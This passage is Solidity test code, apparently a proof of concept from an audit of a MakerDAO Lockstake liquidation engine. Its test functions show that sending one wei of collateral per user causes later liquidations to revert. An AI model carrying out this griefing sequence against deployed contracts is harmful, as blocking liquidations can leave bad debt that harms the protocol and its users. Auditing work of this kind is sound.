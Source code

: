```solidity
        _moveInkToGem();

        // Ensure users can withdraw/select VD/select farm
        _testLiquidateUsingDog();
        _testSelectDelegate({expectRevert: false});

        // Donate 1 wei each
        for (uint i; i < users.length; i++) {
            address user = users[i];
            _sendOneInkFromEoaUrn(user);
        }

        for (uint i; i < users.length; i++) {
            address user = users[i];
            _testLiquidateUsingDog({
                user: user, 
                revertMsg: "LockstakeMkr/insufficient-balance",
                useSnapshots: false}
            );
        }
    }

    function testAttack4SendOneInk2() public {
        testAttack4SendOneInk();
       
        // _testLiquidateUsingDog without snapshot changed MKR price, change it back
        _changeMkrPrice(1_500 * 10**18);
        // Test single user with a separate VD will revert
        _createUrnDepositDrawForUsers(user4, voteDelegate2);
        
        _changeBlockNumberForChief();
        _testLiquidateUsingDog({user: user4, revertMsg: ""});

        _sendOneInkFromEoaUrn(user4);

        // Now liquidation will revert
       _testLiquidateUsingDog({user: user4, revertMsg: "VoteDelegate/insufficient-stake"});
    }

    function testAttack4SendOneInk3() public {
        testAttack4SendOneInk2();

       // Depositing to VD won't help, because we also miss lsmkr, onKick tries to burn lsMkr
       _createUrnDepositDrawForUsers(makeAddr("user5"), voteDelegate2, 1e18);
       
       _changeBlockNumberForChief();
       _testLiquidateUsingDog({user: user4, revertMsg: "LockstakeMkr/insufficient-balance"});
    }

    function testAttack4SendOneInk4() public {
        testAttack4SendOneInk2();

        // try freeing everything
        vm.startPrank(user4);

        address urn = engine.getUrn(user4, 0);

        nst.approve(address(engine), type(uint).max);
        engine.wipeAll(urn);

        uint sID = vm.snapshot();
        // Can withdraw their deposit
        engine.free(urn, user4, mkrAmount);
```